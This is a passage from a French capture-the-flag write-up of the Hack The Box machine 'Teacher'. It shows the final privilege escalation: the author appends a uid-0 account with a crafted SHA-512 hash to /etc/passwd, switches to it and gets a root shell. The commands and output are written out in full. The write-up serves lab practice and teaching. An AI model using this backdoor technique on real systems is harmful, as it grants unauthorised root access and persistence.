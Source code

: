     root@Seyptoo:~/htb/writeup/Teacher# mkpasswd -m sha-512 seyptoo
    $6$4.FCX0BzdmJd77$HWgUSNGZsazwyv1ZMUVIP1u6R8wsPwTk20xOp0kRHd2T2EELmaIlxO9aloi0QtxBnfFjMlLehMDccVjd5yN00

Donc concrètement je vais ajouter une ligne dans le fichier /etc/passwd pour être root.

    giovanni@teacher:/etc$ echo -e 'seyptoo:$6$4.FCX0BzdmJd77$HWgUSNGZsazwyv1ZMUVIP1u6R8wsPwTk20xOp0kRHd2T2EELmaIlxO9aloi0QtxBnfFjMlLehMDccVjd5yN00.:0:0:root:/root:/bin/bash ' >> /etc/passwd
    giovanni@teacher:/etc$ cat passwd
    root:x:0:0:root:/root:/bin/bash
    [...SNIP...]
    seyptoo:$6$4.FCX0BzdmJd77$HWgUSNGZsazwyv1ZMUVIP1u6R8wsPwTk20xOp0kRHd2T2EELmaIlxO9aloi0QtxBnfFjMlLehMDccVjd5yN00.
    giovanni@teacher:/etc$ su - seyptoo
    Password: seyptoo

    root@teacher:~# id
    uid=0(root) gid=0(root) groupes=0(root)

N'hésitez pas à star ma répositorie c'étais une boîte très intéréssante, ou il y'avais beaucoup d'énumération.
